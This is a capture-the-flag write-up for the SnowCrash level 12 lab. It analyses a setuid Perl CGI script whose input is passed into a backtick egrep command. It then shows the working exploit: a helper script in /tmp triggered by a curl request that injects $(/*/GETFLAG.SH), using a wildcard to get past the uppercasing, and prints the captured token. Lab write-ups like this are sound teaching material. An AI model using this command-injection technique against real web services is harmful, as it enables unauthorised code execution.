 # Level 12

- Once logged in, you will see a file `level12.pl`
```
ssh level12@142.93.230.51 -p 4242                     INT ✘  23m 21s 
	   _____                      _____               _
	  / ____|                    / ____|             | |
	 | (___  _ __   _____      _| |     _ __ __ _ ___| |__
	  \___ \| '_ \ / _ \ \ /\ / / |    | '__/ _` / __| '_ \
	  ____) | | | | (_) \ V  V /| |____| | | (_| \__ \ | | |
	 |_____/|_| |_|\___/ \_/\_/  \_____|_|  \__,_|___/_| |_|

  Good luck & Have fun

          142.93.230.51 10.110.0.2
level12@142.93.230.51's password:
level12@SnowCrash:~$ ls
level12.pl
level12@SnowCrash:~$ ls -ls
total 4
4 -rwsr-sr-x+ 1 flag12 level12 464 Mar  5  2016 level12.pl
```

[what is `pl` file?](https://docs.fileformat.com/programming/pl/#:~:text=A%20file%20with%20.,file%20formats%20such%20as%20PHP.)
```
level12@SnowCrash:~$ file level12.pl
level12.pl: setuid setgid a perl script, ASCII text executable
```

let's take a look at the file

```
level12@SnowCrash:~$ ./level12.pl
perl: warning: Setting locale failed.
perl: warning: Please check that your locale settings:
	LANGUAGE = (unset),
	LC_ALL = (unset),
	LC_TERMINAL_VERSION = "3.4.15",
	LC_CTYPE = "UTF-8",
	LC_TERMINAL = "iTerm2",
	LANG = "en_US.UTF-8"
    are supported and installed on your system.
perl: warning: Falling back to the standard locale ("C").
Content-type: text/html

..level12@SnowCrash:~$
```

```
level12@SnowCrash:~$ cat level12.pl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}

n(t(param("x"), param("y")));
```
The script is basically receives a parameter `x`, enabled by `use CGI qw{param};`, from [CGI.pm module](https://www.cs.ait.ac.th/~on/O/oreilly/perl/perlnut/ch10_01.htm#:~:text=CGI.pm%20is%20a%20Perl,is%20an%20object%2Doriented%20module.) and following `sub`s will be executed.

From the bottom line, where `n(t(param("x"), param("y")));` is called, sub t and will be called in order.

On line `@output = `\``egrep "^$xx" /tmp/xd 2>&1`\``;`, once the argument passed, the commmand substitution can be run (as **egrep** will be executed)

But, make sure `$xx =~ tr/a-z/A-Z/;` the value passed to the paramater is uppercased.

as seen from the script, something is going on port `4646`

```
level12@SnowCrash:~$ nc -zv localhost 4646
Connection to localhost 4646 port [tcp/*] succeeded!
```

```
level12@SnowCrash:~$ vi /tmp/GETFLAG.SH
level12@SnowCrash:~$ cat /tmp/GETFLAG.SH
#!/bin/bash

/bin/getflag > /tmp/output
level12@SnowCrash:~$ chmod +x /tmp/GETFLAG.SH
level12@SnowCrash:~$
```

and send the parameter.

```
level12@SnowCrash:~$ curl 'http://localhost:4646/?x=$(/*/GETFLAG.SH)'
..level12@SnowCrash:~$ cat /tmp/output
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```

**As linux is case sensitive, the command itself cannot be passed directly, nor the absolute path of the script cannot be send, so using wildcard enables to find the file within the level of the path**

